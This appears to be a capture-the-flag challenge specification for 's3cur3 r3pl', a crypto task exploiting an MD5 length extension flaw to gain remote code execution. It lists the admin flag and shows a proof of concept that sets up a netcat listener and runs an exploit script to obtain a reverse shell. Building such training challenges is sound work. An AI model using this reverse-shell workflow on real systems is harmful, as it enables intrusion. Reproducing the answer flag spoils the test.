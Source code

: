 ## Info

| metadata                                  | <>                                        |
| ----------------------------------------- | ----------------------------------------- |
| Developer Name(s)                         | Dylan                                     |
| Best Contact Slack handle / Email address | [redacted] |
| Challenge Category                        | Crypto                                    |
| Challenge Tier                            | 4                                         |
| Challenge Type                            | Container                                 |

| Player facing         | <>                                                     |
| --------------------- | ------------------------------------------------------ |
| Challenge Name        | s3cur3 r3pl                                            |
| Challenge Description | Gain remote code execution and read flag from flag.txt. http://crypto-4 | 
| Challenge Hint 1      | Flickr's API suffered from a similar vulnerability     |
| Challenge Hint 2      | Investigate 'MD5 Length Extension Attacks'             |

| Admin Facing   | <>                                      |
| -------------- | --------------------------------------- |
| Challenge Flag | WACTF{76656ebc7cc6d6267529456ad9179672} |
| Challenge Vuln | MD5 Length Extension -> RCE             |
| Docker Usage Idle          | 1% CPU / 10MB RAM  |
| Docker usage Expected Peak | 10% CPU / 20MB RAM |

---

## Challenge PoC
Setup `exploit.py` as follows.
```
kali@kali:~$ python3 -m venv env
kali@kali:~$ . ./env/bin/activate
kali@kali:~$ pip install requests
Collecting requests
  Using cached requests-2.24.0-py2.py3-none-any.whl (61 kB)
Collecting urllib3!=1.25.0,!=1.25.1,<1.26,>=1.21.1
  Using cached urllib3-1.25.11-py2.py3-none-any.whl (127 kB)
Collecting certifi>=2017.4.17
  Using cached certifi-2020.6.20-py2.py3-none-any.whl (156 kB)
Collecting chardet<4,>=3.0.2
  Using cached chardet-3.0.4-py2.py3-none-any.whl (133 kB)
Collecting idna<3,>=2.5
  Using cached idna-2.10-py2.py3-none-any.whl (58 kB)
Installing collected packages: urllib3, certifi, chardet, idna, requests
Successfully installed certifi-2020.6.20 chardet-3.0.4 idna-2.10 requests-2.24.0 urllib3-1.25.11
```

Start a netcat handler.
```
kali@kali:~$ nc -lvp 4444
```

The `exploit.py` script can be used to obtain a reverse shell as as follows.
```
kali@kali:~$ python exploit.py 192.168.1.33 192.168.1.33 4444
Status code: 200
Response: {"result":{}}
```

